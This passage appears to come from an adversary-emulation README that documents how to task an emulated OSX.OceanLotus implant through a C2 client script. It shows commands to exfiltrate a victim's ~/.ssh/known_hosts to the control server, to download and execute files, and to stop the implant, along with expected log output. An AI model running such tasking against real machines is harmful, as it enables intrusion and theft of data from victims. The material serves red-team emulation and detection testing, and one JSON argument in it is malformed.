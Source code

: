 - Upload a file
    ```
    # task the OSX.OceanLotus implant to upload /Users/bob/.ssh/known_hosts from the victim machine to the C2 server
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_upload_file", "arg":"/Users/bob/.ssh/known_hosts"}'
    ```
    - Expected C2 server log output
        ```
        [SUCCESS] 2023/07/31 10:22:47 File uploaded: Successfully uploaded file to control server at './files/known_hosts'
        ```

- Download a file
    > :information_source: **Note:** The implementation of the OSX.OceanLotus
    implant is only capable of downloading files to its current working directory
    with the file name of `osx.download`. This instruction does not return output.

    ```
    # task the OSX.OceanLotus implant to download hello_world to the local directory
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_download_file", "payload":"hello_world"}'
    ```

- Download and execute a file
    > :information_source: **Note:** The implementation of the OSX.OceanLotus
    implant will also add the executable bit to the created `osx.download` file.

    ```
    # task the OSX.OceanLotus implant to download hello_world to the local directory then execute it
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_download_exec", "arg":"hello_world}'
    ```
    - Expected C2 server log output:
        ```
        [Task] 2023/07/31 10:30:30 Hello, world!
        ```

- Terminate the implant process
    > :information_source: **Note:** The implementation of the OSX.OceanLotus
    implant will not return output for this instruction.

    ```
    # task the OSX.OceanLotus implant to exit
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_exit"}'
    ```
